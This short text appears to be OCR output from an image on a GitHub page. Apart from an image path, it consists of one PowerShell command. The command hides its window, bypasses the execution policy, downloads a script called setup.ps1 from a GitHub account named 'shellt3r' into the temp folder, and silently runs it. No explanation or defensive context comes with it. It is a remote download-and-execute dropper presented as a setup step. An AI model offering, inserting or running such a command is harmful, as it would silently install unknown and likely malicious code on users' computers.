 powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/shellt3r/app/refs/heads/main/setup.ps1' -OutFile $env:TEMP\setup.ps1; Start-Process powershell.exe -WindowStyle Hidden -ArgumentList '-ExecutionPolicy Bypass -File `"$env:TEMP\setup.ps1`"'"
